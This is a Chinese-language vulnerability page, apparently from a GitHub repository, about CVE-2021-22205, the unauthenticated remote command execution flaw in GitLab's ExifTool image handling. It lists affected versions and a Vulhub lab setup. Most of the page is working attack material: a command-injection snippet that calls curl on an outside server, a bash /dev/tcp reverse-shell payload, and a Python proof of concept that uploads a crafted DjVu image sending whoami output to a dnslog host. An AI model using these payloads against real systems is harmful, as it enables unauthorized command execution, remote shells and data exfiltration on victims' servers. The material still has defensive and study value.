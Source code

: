 # CVE-2021-22205：GitLab命令执行漏洞
## 漏洞概述

2021年4⽉15⽇，GitLab官方发布安全补丁更新修复了GitLab命令执行漏洞（CVE-2021- 22205）。由于GitLab中的ExifTool没有对传⼊的图像文件的扩展名进行正确处理，攻击者通过 上传特制的恶意图片，可以在目标服务器上执行任意命令，且发现由于GitLab存在未授权的端点，导致该漏洞在无需进行身份验证的情况下即可进行利用，社区版(CE)和企业版(EE)皆受影响，CVSS评分为9.9。

 GitLab 是一个基于 Web 的 DevOps 生命周期工具，它提供了一个 Git 存储库管理器，可提供 wiki、问题跟踪以及持续集成和部署管道功能。

在 GitLab CE/EE 中发现了一个问题，影响了从 11.9 开始的版本。GitLab 没有正确验证传递给文件解析器的图像文件，这导致了未经身份验证的远程命令执行。

## 漏洞影响
11.9 <= Gitlab CE/EE < 13.8.8
13.9 <= Gitlab CE/EE < 13.9.6
13.10 <= Gitlab CE/EE < 13.10.3

## 漏洞环境
Vulhub:~/vulhub/gitlab/CVE-2021-22205
`docker-compose up -d`

## 漏洞复现
验证POC，需可连通的dnslog.cn
### 命令执行
开启一个服务器
`python3 -m http.server 80`

`command = 'curl http://x.x.x.x'
. qx{"+  command +"} .`
### 反弹shell
`reverseShell = "echo '/bin/bash -i >& /dev/tcp/{listenIp}/{listenPort} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh"
. qx{"+  reverseShell +"} .
`
### Dnslog
```python
'''
只用于验证CVE-2021-22205，不需bs4
Uasges：python cve-2021-22205.py -u http://xx.xx.xx.xx
'''
import requests,argparse,re

def check(target_url):
	session = requests.Session()
	flag = 'Failed to process image'
	data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{curl `whoami`.2oi2n4.dnslog.cn} . \\\n\" b \") )                                                                     \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"

	p = '<meta name="csrf-token" content="(.*)" />'

	try:
		req1 = session.get(target_url.strip("/") + "/users/sign_in", verify=False)
		token = re.search(p,req1.text).group(1)

		headers = {
    		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
			"Connection": "close",
			"Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
			"X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate"}

		req2 = session.post(target_url.strip("/") + "/uploads/user", data=data, headers=headers, verify=False)

		if flag in req2.text:
			print("[+] 目标 {} 存在漏洞".format(target_url))
		else:
			print("[-] 目标 {} 不存在漏洞".format(target_url))
	except Exception as e:
		print(e)

def main():
    parser = argparse.ArgumentParser(description='GitLab < 13.10.3 RCE')
    parser.add_argument('-u', '--url', type=str, help=' 目标URL ')

    args = parser.parse_args()

    target_url   = args.url

    check(target_url)

if __name__ == '__main__':
    main()
```

## 参考文章
https://github.com/Al1ex/CVE-2021-22205
https://zhuanlan.zhihu.com/p/439476986
